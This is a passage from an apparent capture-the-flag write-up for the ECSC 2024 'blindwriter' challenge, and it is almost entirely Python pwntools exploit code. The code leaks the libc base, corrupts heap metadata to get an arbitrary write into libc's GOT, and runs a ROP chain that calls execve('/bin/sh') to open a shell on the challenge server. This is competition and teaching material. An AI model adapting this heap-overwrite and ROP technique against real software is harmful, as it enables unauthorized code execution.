 ```python
            res = io.recvline()
            if b"corrupt" in res:
                io.close()
                continue
            break
        except:
            io.close()

    context.log_level = "INFO"
    success(f"libc base @ {hex(libc.address)}")
    success("Unlinking was successful, executing shell...")

    # gdb.attach(io, gs)
    # Reclaim extra chunks that are in unsorted bins list
    add(0x418, b"FILLING", b"META_FILLING")         # idx: 1

    # ROP chain on GOT@libc
    # Overwrite page->data pointer to get arbitrary write
    payload = b"+" * 0x438
    payload += p64(0x421)                           # size for page chunk
    payload += p64(0xdead)                          # page->size
    payload += p64(libc.address + GOT_OFF)          # page->data
    add(0x500, payload, b"META_OVERWRITE")          # idx: 6
    # Vuln now points to GOT@libc
    payload = p64(0)
    payload += p64(libc.address + GOT_OFF + 0x100)  # Address of our ROP chain
    payload += p64(libc.address + POP_RSP)          # Stack pivot first gadget
    payload += p64(libc.address + PLT0) * 0x1d      # Fill GOT with magic gadget
    # ROP chain starts here
    payload += p64(libc.address + POP_RDI)
    payload += p64(libc.search(b"/bin/sh").__next__())
    payload += p64(libc.address + POP_RSI)
    payload += p64(0)
    payload += p64(libc.address + POP_RDX_POP_RBX)
    payload += p64(0) * 2
    payload += p64(libc.address + POP_RAX)
    payload += p64(0x3b)                            # Execve syscall
    payload += p64(libc.address + SYSCALL)
    edit(4, payload)

    io.interactive()


if __name__ == "__main__":
    main("blindwriter.challs.open.ecsc2024.it", "38003")
```

![Flag](./writeup/flag.png)